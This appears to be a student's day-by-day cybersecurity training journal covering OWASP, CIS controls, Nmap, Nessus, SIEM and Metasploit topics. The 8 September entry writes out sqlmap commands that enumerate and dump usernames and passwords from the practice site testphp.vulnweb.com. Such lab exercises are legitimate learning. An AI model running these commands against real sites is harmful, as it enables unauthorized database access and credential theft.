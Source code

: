 <h2>day-day journal</h2>

--------------------------Week-1--------------------------<br>
<22 August> 10 Hackers and their accomplishments. <br>
<23 August> what vulnerabilities are available for a perticular port.<br>
<24 August> OWASP top 5 vulnerabilities and test it on a website.<br>
<25 August> How Servers Work understanding web app attack what is a attack? Plot vulnerabilities other than OWASP top 10<br>
<26-27 Aug> Exploit OWASP top 10<br>
--------------------------Week-2--------------------------<br>
<28 August> 10 web Server Attacks<br>
<29 August> 
Inventory and Control of Hardware Assets
Inventory and Control of Software Assets
Continuous Vulnerability Management
Controlled Use of Administrative Privileges
Secure Configuration for Hardware and Software on Mobile Devices, Laptops, Workstations and Servers
Maintenance, Monitoring and Analysis of Audit Logs Foundational
Email and Web Browser Protections
Malware Defenses
Limitation and Control of Network Ports, Protocols, and Services
Data Recovery Capabilities
Secure Configuration for Network Devices, such as Firewalls, Routers and Switches
Boundary Defense
Data Protection
Controlled Access Based on the Need to Know
Wireless Access Control
Account Monitoring and Control Organizational
Implement a Security Awareness and Training Program
Application Software Security
Incident Response and Management
Penetration Tests and Red Team Exercises<br>
<30 August> Understanding CIS Policy version 7and write about them<br>
<31 August> OFF DAY<br>
<1 September> Passive Reconnisence of a website without pinging it. What is OSNIT framework?<br>
<2-3 September> Use 10 tools on kali available in the menu section.<br>
--------------------------Week-3--------------------------<br>
<4 September> Scan any website to check the vulnerabilities in the website using nessus and make a report on it<br>
<5 September> Explore cheatsheet commands(Go through Nmap) and memorize the port nos<br>
<6 September> OFF DAY<br>
<7 September><br>
<8 September> sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -dbs | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart --tables | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users --columns | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C uname --dump
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C pass --dump  [vulweb using sqlmap]<br>
<9-10 September> <br>
--------------------------Week-4--------------------------<br>
<11 September> Doccumntation on What is Syn and SEIM.<br>
<12 September> Doccumentation on What is wincollect and StandAlone winollect<br>
<13 September> pick 4-5 logs from ibm qradar and doccument business impact. What is Local Security Policy in windows.<br>
<14 September> 3 Vulnerabilities exploitaion on metasploit<br>
<15 September> Doccumentation on burpsuit<br>
<16 - 27 September> Mini project plan and building. 2 projects Built in count 


